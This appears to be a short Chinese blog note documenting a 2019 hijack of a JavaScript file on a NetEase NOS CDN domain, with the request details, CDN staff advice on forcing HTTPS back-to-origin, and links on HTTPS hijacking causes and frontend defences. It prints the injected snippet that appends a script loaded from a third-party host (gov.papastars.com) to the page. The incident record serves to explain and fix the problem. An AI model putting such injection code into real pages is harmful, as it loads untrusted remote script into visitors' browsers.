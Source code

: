 
---
title: Nosdn https的js文件劫持
date: Wed Mar 06 2019 16:24:52 GMT+0800 (CST)
tags:

---

```http
Request URL: https://dealer.nosdn.127.net/test/dealer_webapp/static/js/manifest.9283e61d.js
Request Method: GET
Status Code: 200 OK
Remote Address: 183.131.168.145:443
Referrer Policy: no-referrer-when-downgrade
```

```
(function(){var l=document.createElement('script');l.src='https://gov.papastars.com/dlhao.min.js';document.getElementsByTagName('body')[0].appendChild(l);})();(function(){var l=document.createElement('script');l.src='http://dealer.nosdn.127.net/http://dealer.nosdn.127.net/test/dealer_webapp/static/js/manifest.9283e61d.js';document.getElementsByTagName('body')[0].appendChild(l);})();
```

```
NOS值班  3月6日 15:42:42
这个要根治，需要把cdn回源改成https。这个有2步：
NOS值班  3月6日 15:42:55
1.修改回源host；2.启用https回源

NOS值班  3月8日 14:30:10
加速域名：dealer.nosdn.127.net
当前配置：
源站：nos.netease.com
回源HOST：无

修改配置：
源站：nos.netease.com
回源HOST：dealer.nos-hz.163yun.com
回源协议：强制https回源
```

HTTPS DNS劫持案例
https://testudy.cc/tech/2016/10/27/hijacking.html
```
HTTPS的静态文件被劫持，可能存在的情况主要有下面三种情况：

证书泄露（被劫持的js文件是一个大公司的文件，证书泄露可能性较小）；
中间人劫持；
CDN回源路径中存在劫持。
```


应对流量劫持，前端能做哪些工作？
https://www.zhihu.com/question/35720092/answer/523563873